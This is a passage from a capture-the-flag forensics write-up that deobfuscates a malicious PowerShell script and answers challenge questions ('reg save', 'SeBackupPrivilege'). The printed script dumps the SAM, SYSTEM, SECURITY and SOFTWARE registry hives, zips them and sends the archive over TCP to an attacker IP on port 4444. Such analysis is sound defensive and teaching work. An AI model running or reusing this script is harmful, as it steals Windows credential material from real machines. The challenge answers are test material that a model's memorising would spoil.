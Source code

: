 As you can see it's a powershell script, let's try to make the script more clear to understand it :

```powershell
$A= "HKLM\SAM"
$B= "C:\Users\kakarot\Documents\SAM"
reg save $A $B /y

$E= "HKLM\SYSTEM"
$F= "C:\Users\kakarot\Documents\SYSTEM"
reg save $E $F /y

$I= "HKLM\SECURITY"
$J= "C:\Users\kakarot\Documents\SECURITY"
reg save $I $J /y

$M= "HKLM\SOFTWARE"
$N= "C:\Users\kakarot\Documents\SOFTWARE"
reg save $M $N /y

$Q= "C:\Users\kakarot\Documents\*"
$R= "C:\Users\kakarot\Documents\az456d.zip"
Compress-Archive -Path $Q -DestinationPath $R -Force

$S=[System.IO.File]::OpenRead($R)
$T=New-Object System.Net.Sockets.TcpClient
$U="192.168.136.163";$V=4444
$T.Connect($U,$V)
$W=$T.GetStream()
$S.CopyTo($W)
$W.Close()
$T.Close()
$S.Close()
```

As you can see, this powershell script is saving the registry hives, saving them in a zip file and sending them to the attacker's IP address. The command used here to save those hives is 'reg save'. 

#### Answer : 

```
A command was used in the script to get some files, what was that command ? (First 2 words)
> reg save
[+] Correct!
```

### Question 7 : A user must have a specific right to execute that command, what is it ?

The memory dump won't be needed here, just a simple google search will give you your answer.

#### Answer : 

```
A user must have a specific right to execute that command, what is it ?
> SeBackupPrivilege
[+] Correct!
```
